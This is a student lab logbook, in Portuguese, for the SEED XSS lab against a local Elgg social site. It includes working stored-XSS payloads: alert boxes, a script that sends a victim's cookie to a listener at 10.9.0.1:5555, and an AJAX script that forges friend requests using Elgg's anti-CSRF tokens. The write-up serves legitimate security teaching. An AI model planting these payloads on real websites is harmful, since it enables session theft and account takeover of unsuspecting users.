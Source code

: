 # Trabalho realizado na Semana #7

## Questão 1
### Configuração básica

- De forma a tornar este lab possível, temos de adicionar as entradas indicadas pelo guião, no ficheiro `/etc/hosts/`, utilizando o comando `nano`, por exemplo, a partir da root.

![xss lab websites](resources/LOGBOOK7/xss_websites.png)   

- Seguidamente, após o download do _zip_ deste lab, corremos os comandos `dcbuild` e `dcup` de forma a executarmos os containers de docker.

Desta forma, conseguimos ter acesso à pagina `www.seed-server.com`:

![Elgg webpage](resources/LOGBOOK7/elgg_webpage.png)

De forma a testarmos os ataques, também nos é fornecido os utilizadores e as suas respectivas _passwords_ desta webpage.

| UserName | Password    |
|----------|-------------|
| admin    | seedelgg    |
| alice    | seedalice   |
| boby     | seedboby    |
| charlie  | seedcharlie |
| samy     | seedsamy    |


### Tarefa 1 : Posting a Malicious Message to Display an Alert Window

- Como referido no título desta tarefa, o nosso objectivo é conseguirmos executar um script a mostrar uma mensagem maliciosa. Para isso, podemos inserir o seguinte código malicoso, `<script>alert('XSS');</script>`, num dos `forms` do nosso utilizador.

![message script gif](resources/LOGBOOK7/message_script.gif)

Neste caso inserimos o **script malicioso** no perfil da **alice**, na secção _brief description_, e realmente verificamos que para qualquer utilizador, esta mensagem será mostrada.


### Tarefa 2 :  Posting a Malicious Message to Display Cookies

- Tal como na task anterior,o nosso objectivo é mostrar uma mensagem, mas neste caso com as cookies do utilizador. Para tal, inserimos o script malicioso `<script>alert(document.cookie);</script>`, num dos `forms` do nosso utilizador.

![cookie message gif](resources/LOGBOOK7/cookie_message.gif)


Da mesmo maneira que demos _display_ da mensagem `XSS`, agora aparecem as cookies do utilizador _logado_ ao aceder ao perfil da alice.


### Tarefa 3: Stealing Cookies from the Victim’s Machine

- Nesta _task_, o nosso objectivo é conseguir as cookies de outro utilizador através do _script_ que o guião nos fornece. Como tal, inserimos novamente o _script_ malicioso numa das secções do nosso _utilizador_ e esperamos que um dos outros _utilizadores_ aceda ao nosso perfil.

Código malicioso:
```html
<script>
document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');
</script>
```

Execução do ataque:

![steal cookies gif](resources/LOGBOOK7/steal_cookies.gif)

Como podemos verificar, conseguimos roubar as cookies do **boby**, sendo estas `3D9d15l2p41o2d4cn61u9a99j2qf`, através do acesso do perfil da **alice**.


### Tarefa 4: Becoming the Victim’s Friend

- De forma a concluirmos esta tarefa, é nos fornecido um script, ainda incompleto, com a intenção de sermos nós a procurar como podemos obter o _url_ do **HTTP request**  a ser enviado, após enviar um _friend request_ a um dos utilizadores.

- Para conseguirmos visualizar o _request_ a ser feito, utilizamos a ferramenta **HTTP Header Live** que nos indica qualquer request feito após uma ação do utilizador.

Neste caso, inspecionamos o _request_ feito após o envio de um pedido de amizade.

_URL_ Pedido de amizade:
![steal cookies gif](resources/LOGBOOK7/friend_request_url.gif)

Conseguimos obter o url `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog&__elgg_ts=1731067737&__elgg_token=_cVl2t--8uKfxwjsAh7Nog`.

Sendo assim, o nosso _URL_ do nosso script tem de ter um formato semelhante a esse.

Script utilizado:
```html
<script type="text/javascript">
window.onload = function () {
    var Ajax=null;

    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts; ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    //Construct the HTTP request to add Samy as a friend.

    var friendId = "59"  // Id of the friend to add
    var sendurl= "http://www.seed-server.com/action/friends/add?friend=" + friendId + ts + token + ts + token; 

    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
}
</script>
```
Para saber o id do utilizador `samy`, apenas precisamos de inspecionar o perfil dele na lista de membros. 

![user id](resources/LOGBOOK7/user_id.png)

Verificamos assim que o seu id é `59`.